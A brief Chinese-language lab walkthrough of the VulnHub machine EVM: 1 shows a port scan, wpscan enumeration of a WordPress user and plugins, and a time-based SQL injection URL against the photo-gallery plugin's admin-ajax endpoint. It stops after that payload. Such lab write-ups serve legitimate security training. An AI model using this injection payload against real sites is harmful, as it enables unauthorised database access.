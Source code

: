 # EVM: 1

2025.02.27 https://www.vulnhub.com/entry/evm-1,391/

## Ip

192.168.5.39

## Scan

```
PORT    STATE SERVICE
22/tcp  open  ssh
53/tcp  open  domain
80/tcp  open  http
110/tcp open  pop3
139/tcp open  netbios-ssn
143/tcp open  imap
445/tcp open  microsoft-ds
```

smb 无访问权限，enum4linux-ng 也没枚举出用户。

访问 80 web 发现提示：ou can find me at /wordpress/ im vulnerable webapp :)

目录扫描也能扫描出上面的目录，同时扫出 http://192.168.5.39/info.php 是个 phpinfo 页面。

查看 wordpress, 发现加载有问题，源码中是加载的http://192.168.56.103 固定了 ip 有一些加载有问题。

wpscan 先扫描：

```
wpscan --url http://192.168.5.39/wordpress/ -e u,ap,at,tt,cb --plugins-detection mixed
```

扫描到一个用户 c0rrupt3d_brain，发现几个插件 akismet 4.1.2 、 photo-gallery 1.5.34 、 wp-responsive-thumbnail-slider 1.0 、 wp-vault 0.8.6.6

看看这几个插件哪个有漏洞，

```
http://192.168.5.39/wordpress/wp-admin/admin-ajax.php?action=albumsgalleries_bwg&album_id=0 AND (SELECT 1 FROM (SELECT(SLEEP(10)))BLAH)&width=785&height=550&bwg_nonce=9e367490cc&
```
